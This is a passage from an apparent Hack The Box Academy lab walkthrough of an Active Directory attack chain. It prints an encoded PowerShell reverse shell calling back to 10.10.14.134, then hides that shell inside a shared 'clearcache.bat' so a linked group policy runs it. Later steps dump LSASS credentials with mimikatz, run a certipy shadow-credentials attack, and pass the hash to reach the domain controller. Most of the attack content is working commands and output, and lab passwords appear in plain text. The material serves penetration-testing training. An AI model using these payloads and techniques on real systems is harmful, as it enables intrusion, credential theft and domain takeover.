└──╼ [★]$ python3 -c 'import base64; print(base64.b64encode((r"""$LHOST = "10.10.14.134"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()""").encode("utf-16-le")).decode())'

JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADAALgAxADQALgAxADMANAAiADsAIAAkAEwAUABPAFIAVAAgAD0AIAA5ADAAMAAxADsAIAAkAFQAQwBQAEMAbABpAGUAbgB0ACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACQATABIAE8AUwBUACwAIAAkAEwAUABPAFIAVAApADsAIAAkAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0AIAA9ACAAJABUAEMAUABDAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7ACAAJABTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAASQBPAC4AUwB0AHIAZQBhAG0AUgBlAGEAZABlAHIAKAAkAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0AKQA7ACAAJABTAHQAcgBlAGEAbQBXAHIAaQB0AGUAcgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAASQBPAC4AUwB0AHIAZQBhAG0AVwByAGkAdABlAHIAKAAkAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0AKQA7ACAAJABTAHQAcgBlAGEAbQBXAHIAaQB0AGUAcgAuAEEAdQB0AG8ARgBsAHUAcwBoACAAPQAgACQAdAByAHUAZQA7ACAAJABCAHUAZgBmAGUAcgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBCAHkAdABlAFsAXQAgADEAMAAyADQAOwAgAHcAaABpAGwAZQAgACgAJABUAEMAUABDAGwAaQBlAG4AdAAuAEMAbwBuAG4AZQBjAHQAZQBkACkAIAB7ACAAdwBoAGkAbABlACAAKAAkAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0ALgBEAGEAdABhAEEAdgBhAGkAbABhAGIAbABlACkAIAB7ACAAJABSAGEAdwBEAGEAdABhACAAPQAgACQATgBlAHQAdwBvAHIAawBTAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAEIAdQBmAGYAZQByACwAIAAwACwAIAAkAEIAdQBmAGYAZQByAC4ATABlAG4AZwB0AGgAKQA7ACAAJABDAG8AZABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABCAHUAZgBmAGUAcgAsACAAMAAsACAAJABSAGEAdwBEAGEAdABhACAALQAxACkAIAB9ADsAIABpAGYAIAAoACQAVABDAFAAQwBsAGkAZQBuAHQALgBDAG8AbgBuAGUAYwB0AGUAZAAgAC0AYQBuAGQAIAAkAEMAbwBkAGUALgBMAGUAbgBnAHQAaAAgAC0AZwB0ACAAMQApACAAewAgACQATwB1AHQAcAB1AHQAIAA9ACAAdAByAHkAIAB7ACAASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAKAAkAEMAbwBkAGUAKQAgADIAPgAmADEAIAB9ACAAYwBhAHQAYwBoACAAewAgACQAXwAgAH0AOwAgACQAUwB0AHIAZQBhAG0AVwByAGkAdABlAHIALgBXAHIAaQB0AGUAKAAiACQATwB1AHQAcAB1AHQAYABuACIAKQA7ACAAJABDAG8AZABlACAAPQAgACQAbgB1AGwAbAAgAH0AIAB9ADsAIAAkAFQAQwBQAEMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA7ACAAJABOAGUAdAB3AG8AcgBrAFMAdAByAGUAYQBtAC4AQwBsAG8AcwBlACgAKQA7ACAAJABTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAuAEMAbABvAHMAZQAoACkAOwAgACQAUwB0AHIAZQBhAG0AVwByAGkAdABlAHIALgBDAGwAbwBzAGUAKAApAA==
```

Students will open `clearcache.bat` using `Notepad` located at `C:\inetpub\Shared`:

Code: powershell

```powershell
notepad C:\inetpub\Shared\clearcache.bat
```

Skills Assessment

```powershell-session
PS C:\Users\taino> notepad C:\inetpub\Shared\clearcache.bat
```

They will add a line that will initiate the `PowerShell` reverse shell and save the file:

Code: text

```text
@echo off
echo Clearing DNS cache...
ipconfig /flushdns

%windir%\system32\cmd.exe /c powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADAALgAxADQALgAxADMANAAiADsAIAAkAEwAUABPAFIAVAAgAD0AIAA5ADAAMAAxADsAIAAkAFQAQwBQAEMAbABpAGUAbgB0ACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACQATABIAE8AUwBUACwAIAAkAEwAUABPAFIAVAApADsAIAAkAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0AIAA9ACAAJABUAEMAUABDAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7ACAAJABTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAASQBPAC4AUwB0AHIAZQBhAG0AUgBlAGEAZABlAHIAKAAkAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0AKQA7ACAAJABTAHQAcgBlAGEAbQBXAHIAaQB0AGUAcgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAASQBPAC4AUwB0AHIAZQBhAG0AVwByAGkAdABlAHIAKAAkAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0AKQA7ACAAJABTAHQAcgBlAGEAbQBXAHIAaQB0AGUAcgAuAEEAdQB0AG8ARgBsAHUAcwBoACAAPQAgACQAdAByAHUAZQA7ACAAJABCAHUAZgBmAGUAcgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBCAHkAdABlAFsAXQAgADEAMAAyADQAOwAgAHcAaABpAGwAZQAgACgAJABUAEMAUABDAGwAaQBlAG4AdAAuAEMAbwBuAG4AZQBjAHQAZQBkACkAIAB7ACAAdwBoAGkAbABlACAAKAAkAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0ALgBEAGEAdABhAEEAdgBhAGkAbABhAGIAbABlACkAIAB7ACAAJABSAGEAdwBEAGEAdABhACAAPQAgACQATgBlAHQAdwBvAHIAawBTAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAEIAdQBmAGYAZQByACwAIAAwACwAIAAkAEIAdQBmAGYAZQByAC4ATABlAG4AZwB0AGgAKQA7ACAAJABDAG8AZABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABCAHUAZgBmAGUAcgAsACAAMAAsACAAJABSAGEAdwBEAGEAdABhACAALQAxACkAIAB9ADsAIABpAGYAIAAoACQAVABDAFAAQwBsAGkAZQBuAHQALgBDAG8AbgBuAGUAYwB0AGUAZAAgAC0AYQBuAGQAIAAkAEMAbwBkAGUALgBMAGUAbgBnAHQAaAAgAC0AZwB0ACAAMQApACAAewAgACQATwB1AHQAcAB1AHQAIAA9ACAAdAByAHkAIAB7ACAASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAKAAkAEMAbwBkAGUAKQAgADIAPgAmADEAIAB9ACAAYwBhAHQAYwBoACAAewAgACQAXwAgAH0AOwAgACQAUwB0AHIAZQBhAG0AVwByAGkAdABlAHIALgBXAHIAaQB0AGUAKAAiACQATwB1AHQAcAB1AHQAYABuACIAKQA7ACAAJABDAG8AZABlACAAPQAgACQAbgB1AGwAbAAgAH0AIAB9ADsAIAAkAFQAQwBQAEMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA7ACAAJABOAGUAdAB3AG8AcgBrAFMAdAByAGUAYQBtAC4AQwBsAG8AcwBlACgAKQA7ACAAJABTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAuAEMAbABvAHMAZQAoACkAOwAgACQAUwB0AHIAZQBhAG0AVwByAGkAdABlAHIALgBDAGwAbwBzAGUAKAApAA==

echo Clearing thumbnail cache...
del /f /s /q %LocalAppData%\Microsoft\Windows\Explorer\thumbcache_*.db

echo Clearing system file cache...
%windir%\system32\cmd.exe /c "echo Free system file cache memory. && Rundll32.exe advapi32.dll,ProcessIdleTasks"
```

Students need to start `netcat` listening on port `9001` on their workstations and link the previously created GPO:

Code: shell

```shell
nc -nvlp 9001
Get-GPO -Name AngelGPO | New-GPLink -Target "OU=Countries,DC=inlanefreight,DC=local" -Verbose
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~]
└──╼ [★]$ nc -nvlp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.152.8.
Ncat: Connection from 10.129.152.8:61564.

Get-GPO -Name AngelGPO | New-GPLink -Target "OU=Countries,DC=inlanefreight,DC=local" -Verbose
```

Students need to return to the `PowerShell` session running as the user `angel` and use `Enter-PSSession` to establish session on `RD09` from where they can grab the flag located at `C:\Users\Administrator\Desktop\`:

Code: powershell

```powershell
Enter-PSSession RD09
type C:\Users\Administrator\Desktop\flag.txt
```

Skills Assessment

```powershell-session
PS C:\Users\taino> Enter-PSSession RD09
[RD09]: PS C:\Users\angel\Documents> type C:\Users\Administrator\Desktop\flag.txt
```

Answer: {hidden}

# Skills Assessment

## Question 3

### "Compromise DC04 and read the flag located at C:\Users\Administrator\Desktop\flag.txt"

Using the previously established RDP session on the host `SDE01`, students will enumerate the users in the domain using `Get-ADUser`, finding out two additional users `restituyo` and `tangui`:

Code: powershell

```powershell
Get-ADUser -Filter *
```

Skills Assessment

```powershell-session
PS C:\Users\taino> Get-ADUser -Filter *

<SNIP>

DistinguishedName : CN=restituyo,CN=Users,DC=inlanefreight,DC=local
Enabled           : True
GivenName         :
Name              : restituyo
ObjectClass       : user
ObjectGUID        : b271ab9d-31f3-424d-a833-e0d407349973
SamAccountName    : restituyo
SID               : S-1-5-21-1203991204-2482992733-3322511772-1105
Surname           :
UserPrincipalName :

<SNIP>

DistinguishedName : CN=tangui,CN=Users,DC=inlanefreight,DC=local
Enabled           : True
GivenName         :
Name              : tangui
ObjectClass       : user
ObjectGUID        : 8ef0b4a0-9e8a-41dd-834e-323f9218807c
SamAccountName    : tangui
SID               : S-1-5-21-1203991204-2482992733-3322511772-1109
Surname           :
UserPrincipalName :
```

Students will proceed to query the ACL of the user `restituyo` over `tangui` using `Get-DomainObjectAcl`, where they will come to know that the user `restituyo` has `WriteProperty` over `tangui`:

Code: powershell

```powershell
$sid = (Get-DomainUser -Identity restituyo).objectsid
Get-DomainObjectAcl -Identity tangui | ?{$_.SecurityIdentifier -eq $sid}
```

Skills Assessment

```powershell-session
PS C:\Users\taino> $sid = (Get-DomainUser -Identity restituyo).objectsid
PS C:\Users\taino> Get-DomainObjectAcl -Identity tangui | ?{$_.SecurityIdentifier -eq $sid}


ObjectDN               : CN=tangui,CN=Users,DC=inlanefreight,DC=local
ObjectSID              : S-1-5-21-1203991204-2482992733-3322511772-1109
ActiveDirectoryRights  : WriteProperty
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 5b47d60f-6090-40b2-9f37-2a4de88f3063
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 32
SecurityIdentifier     : S-1-5-21-1203991204-2482992733-3322511772-1105
AceType                : AccessAllowedObject
AceFlags               : None
IsInherited            : False
InheritanceFlags       : None
PropagationFlags       : None
AuditFlags             : None

<SNIP>
```

Students will connect to `172.19.99.15` (`RD09`) using the credentials `angel:Ilovebaseball01` (obtained previously), while utilizing the previously established dynamic port-forwarding:

Code: shell

```shell
proxychains -q xfreerdp /v:172.19.99.15 /u:angel /p:'Ilovebaseball01' /dynamic-resolution /drive:.,student
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~]
└──╼ [★]$ proxychains -q xfreerdp /v:172.19.99.15 /u:angel /p:'Ilovebaseball01' /dynamic-resolution /drive:.,student
[13:45:08:738] [7243:7245] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[13:45:08:738] [7243:7245] [WARN][com.freerdp.crypto] - CN = RD09.inlanefreight.local
[13:45:08:738] [7243:7245] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[13:45:08:738] [7243:7245] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[13:45:08:738] [7243:7245] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[13:45:08:738] [7243:7245] [ERROR][com.freerdp.crypto] - The hostname used for this connection (172.19.99.15:3389) 
[13:45:08:738] [7243:7245] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[13:45:08:738] [7243:7245] [ERROR][com.freerdp.crypto] - Common Name (CN):
[13:45:08:738] [7243:7245] [ERROR][com.freerdp.crypto] - 	RD09.inlanefreight.local
[13:45:08:738] [7243:7245] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 172.19.99.15:3389 (RDP-Server):
	Common Name: RD09.inlanefreight.local
	Subject:     CN = RD09.inlanefreight.local
	Issuer:      CN = RD09.inlanefreight.local
	Thumbprint:  f9:3e:a1:c7:6c:59:64:fe:b8:15:d3:6a:2e:bd:fa:6e:b8:a9:3b:82:b9:5a:f4:6f:5b:eb:a1:82:b2:e5:0b:9f
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

Students will open `PowerShell` as Administrator, upload `mimikatz.exe`, and dump the LSASS process to obtain the password hash of the user `restituyo`:

Code: powershell

```powershell
cd ~
copy \\TSCLIENT\student\mimikatz.exe .
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

Skills Assessment

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd ~
PS C:\Users\angel> copy \\TSCLIENT\student\mimikatz.exe .
PS C:\Users\angel> .\mimikatz.exe "sekurlsa::logonpasswords" exit


  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::logonpasswords

<SNIP>

Authentication Id : 0 ; 304693 (00000000:0004a635)
Session           : Batch from 0
User Name         : restituyo
Domain            : INLANEFREIGHT
Logon Server      : DC04
Logon Time        : 5/22/2024 5:53:58 AM
SID               : S-1-5-21-1203991204-2482992733-3322511772-1105
        msv :
         [00000003] Primary
         * Username : restituyo
         * Domain   : INLANEFREIGHT
         * NTLM     : 98b590665f1025577b5b9bdc081927bb
         * SHA1     : ff09f1b9e8edb6177b60b88b1f1ec41a617eaa06
         * DPAPI    : bd0a5202b44aab43a65a409416d43420
        tspkg :
        wdigest :
         * Username : restituyo
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : restituyo
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :
<SNIP>
```

Students will perform shadow credential attack using `certipy` to obtain the NT hash for the user `tangui`:

Code: shell

```shell
proxychains -q certipy shadow auto -username restituyo@inlanefreight.local -hashes :98b590665f1025577b5b9bdc081927bb -account 'tangui' -dc-ip 172.19.99.10 -target dc04.inlanefreight.local -scheme ldap
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~]
└──╼ [★]$ proxychains -q certipy shadow auto -username restituyo@inlanefreight.local -hashes :98b590665f1025577b5b9bdc081927bb -account 'tangui' -dc-ip 172.19.99.10 -target dc04.inlanefreight.local -scheme ldap

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'tangui'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c9f4a121-cb31-a426-6b64-c600df499e6b'
[*] Adding Key Credential with device ID 'c9f4a121-cb31-a426-6b64-c600df499e6b' to the Key Credentials for 'tangui'
[*] Successfully added Key Credential with device ID 'c9f4a121-cb31-a426-6b64-c600df499e6b' to the Key Credentials for 'tangui'
[*] Authenticating as 'tangui' with the certificate
[*] Using principal: tangui@inlanefreight.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'tangui.ccache'
[*] Trying to retrieve NT hash for 'tangui'
[*] Restoring the old Key Credentials for 'tangui'
[*] Successfully restored the old Key Credentials for 'tangui'
[*] NT hash for 'tangui': bb73d5056f1f2084e5b5bbe18261f6b6
```

Students will utilize the RDP session on `SDE01` where they will perform Pass-the-Hash attack using the newly obtained hash of the user `tangui`:

Code: powershell

```powershell
.\mimikatz.exe "sekurlsa::pth /user:tangui /domain:inlanefreight.local /rc4:bb73d5056f1f2084e5b5bbe18261f6b6 /run:powershell.exe"
```

Skills Assessment

```powershell-session
PS C:\Users\taino> .\mimikatz.exe "sekurlsa::pth /user:tangui /domain:inlanefreight.local /rc4:bb73d5056f1f2084e5b5bbe18261f6b6 /run:powershell.exe"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::pth /user:tangui /domain:inlanefreight.local /rc4:bb73d5056f1f2084e5b5bbe18261f6b6 /run:powershell.exe
user    : tangui
domain  : inlanefreight.local
program : powershell.exe
impers. : no
NTLM    : bb73d5056f1f2084e5b5bbe18261f6b6
  |  PID  3980
  |  TID  6792
  |  LSA Process is now R/W
  |  LUID 0 ; 4558414 (00000000:00458e4e)
  \_ msv1_0   - data copy @ 00000236E7F71640 : OK !
  \_ kerberos - data copy @ 00000236E7EE6418
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 00000236E7F1CFD8 (32) -> null
```

In the newly spawned window, students will navigate to `C:\Users\taino`, import `PowerView.ps1`, and link the previously created GPO named `AngelGPO`:

Code: powershell

```powershell
cd C:\Users\taino
Import-Module .\PowerView.ps1
Get-GPO -Name AngelGPO | New-GPLink -Target "Default-First-Site-Name"
```

Skills Assessment

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\Users\taino
PS C:\Users\taino> Import-Module .\PowerView.ps1
PS C:\Users\taino> Get-GPO -Name AngelGPO | New-GPLink -Target "Default-First-Site-Name"


GpoId       : e44447b5-9a15-4c4e-a025-e434c05d35eb
DisplayName : AngelGPO
Enabled     : True
Enforced    : False
Target      : CN=Default-First-Site-Name,cn=Sites,CN=Configuration,DC=inlanefreight,DC=local
Order       : 1
```

Subsequently, students will establish an RDP session using the credentials of the user `angel` to connect to `172.19.99.10` (`DC04`):

Code: shell

```shell
proxychains -q xfreerdp /u:angel /p:Ilovebaseball01 /v:172.19.99.10
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~]
└──╼ [★]$ proxychains -q xfreerdp /u:angel /p:Ilovebaseball01 /v:172.19.99.10
[14:29:48:900] [8144:8146] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[14:29:48:900] [8144:8146] [WARN][com.freerdp.crypto] - CN = DC04.inlanefreight.local
[14:29:48:900] [8144:8146] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[14:29:48:900] [8144:8146] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[14:29:48:900] [8144:8146] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[14:29:48:900] [8144:8146] [ERROR][com.freerdp.crypto] - The hostname used for this connection (172.19.99.10:3389) 
[14:29:48:900] [8144:8146] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[14:29:48:900] [8144:8146] [ERROR][com.freerdp.crypto] - Common Name (CN):
[14:29:48:900] [8144:8146] [ERROR][com.freerdp.crypto] - 	DC04.inlanefreight.local
[14:29:48:900] [8144:8146] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 172.19.99.10:3389 (RDP-Server):
	Common Name: DC04.inlanefreight.local
	Subject:     CN = DC04.inlanefreight.local
	Issuer:      CN = DC04.inlanefreight.local
	Thumbprint:  aa:07:88:ed:6b:0b:fe:b6:d8:a8:4b:b0:10:57:18:e7:9e:30:0f:e3:b8:e2:af:65:12:17:24:c1:a0:5b:40:29
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

Students will open `PowerShell` as Administrator and read the flag located at `C:\Users\Administrator\Desktop\`:

Code: powershell

```powershell
type C:\Users\Administrator\Desktop\flag.txt
```

Skills Assessment

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
```

Answer: {hidden}